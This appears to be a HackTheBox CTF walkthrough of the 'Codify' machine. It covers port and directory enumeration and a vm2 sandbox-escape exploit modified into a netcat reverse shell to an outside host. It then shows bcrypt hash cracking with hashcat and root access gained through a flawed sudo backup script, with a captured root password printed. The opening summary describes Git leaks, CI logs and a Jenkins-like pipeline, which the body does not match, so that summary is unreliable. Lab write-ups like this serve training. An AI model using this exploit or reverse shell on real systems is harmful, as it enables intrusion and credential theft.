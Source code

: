 ```yaml
---
title: "Codify"
date: 2024-04-26
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "codify", "htb walkthrough", "hackthebox", "writeup"]
---
```


Codify demonstrates the risks of poorly configured internal APIs and CI/CD exposure.
The foothold was achieved by analyzing the behavior of a backend code formatting service vulnerable to command injection.
Authentication tokens and sensitive credentials were found via Git leaks and CI log artifacts.
Privilege escalation came from exploiting a Jenkins-like system that exposed pipeline definitions with insecure script execution.
Codify reflects how modern DevOps workflows can become entry points if access control and environment separation aren't enforced.

## Enumeration

>- Navigating to the website shows service name and version which is `vm2 3.9.16`

### Nmap

```sh
└─$ nmap -sC -sV -p- 10.10.11.239 --open      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-30 10:51 AEST
Nmap scan report for 10.10.11.239
Host is up (0.023s latency).
Not shown: 65136 closed tcp ports (conn-refused), 396 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### 80-HTTP

![screenshot](/assets/images/codify1.png)

### Web

![screenshot](/assets/images/codify2.png)

![screenshot](/assets/images/codify3.png)

- vm2 3.9.16

### Gobuster

```sh
└─$ gobuster dir -u http://codify.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://codify.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/editor               (Status: 200) [Size: 3123]
/about                (Status: 200) [Size: 2921]
/.                    (Status: 200) [Size: 2269]
/About                (Status: 200) [Size: 2921]
/Editor               (Status: 200) [Size: 3123]
/server-status        (Status: 403) [Size: 275]
/ABOUT                (Status: 200) [Size: 2921]
Progress: 63088 / 63089 (100.00%)
===============================================================
```

## Initial Access

>- In the `vm2` github repo, there are 8 critical security issues. (sandbox escape).
- Tying the one that does not return `Object Promise` (JavaScript Async API) and modifying the payload to trigger reverse shell gives initial acces as user `svc`. 

## Initial Access

https://github.com/advisories/GHSA-ch3r-j5x3-6q2m

PoC: https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

- Go to vm2 github -> Security tab
- Try the ones that do not return `object Promise`

![screenshot](/assets/images/codify4.png)

https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

Modified payload

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.50 9001 >/tmp/f").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

![screenshot](/assets/images/codify5.png)

![screenshot](/assets/images/codify7.png)

## Lateral Movement

>- In the `/var/www` directory, there is another directory that was not visible externally : `contacts.` 
	- Inside this directory, there is a `tickets.db`.
	- Upon downloading and opening the db, user credentials are obtained. 
		- Cracking the hash gives the password for joshua.
- SSH as joshua with the obtained creds. 

### Linpeas

![screenshot](/assets/images/codify8.png)

![screenshot](/assets/images/codify9.png)

![screenshot](/assets/images/codify10.png)

![screenshot](/assets/images/codify11.png)

Checking `/var/www`, there is a contacts directory with `tickets.db`.

![screenshot](/assets/images/codify12.png)

![screenshot](/assets/images/codify13.png)

Check hash cat modes 
3200 bcrypt. 

```sh 
hashcat -m 3200 joshua /usr/share/wordlists/rockyou.txt
```

![screenshot](/assets/images/codify14.png)

#### Joshua

ssh as joshua

![screenshot](/assets/images/codify15.png)

## Privilege Escalation

>- `sudo -l`, we can see that we can execute `/opt/scripts/mysql-backup.sh` script as root. 
	- The script prompts the user to enter the _MySQL_ password for the specified database user and compares the entered password `USER_PASS` with the one retrieved from the file `DB_PASS`. 
		- If the user enters `*` as their password, the match will be evaluated as true. 
	- The script then passes the password to _mysqldump_ but it doesn't make the comparison with the user input password. The one that is passed is from the credential file in `/root/.creds`. 
		- `DB_PASS=$(/usr/bin/cat /root/.creds)`

```sh
/usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" |
/usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
```
-> Can view the real password by using a process snooping tool like _pspy_. 

![screenshot](/assets/images/codify21.png)

`su root` .

![screenshot](/assets/images/codify16.png)

![screenshot](/assets/images/codify17.png)

![screenshot](/assets/images/codify19.png)

Provide `*` as the password.

Pspy captures the root password for mysql.  

```sh
mysql : kljh12k3jhaskjh12kjh3
```

![screenshot](/assets/images/codify18.png)

![screenshot](/assets/images/codify20.png)
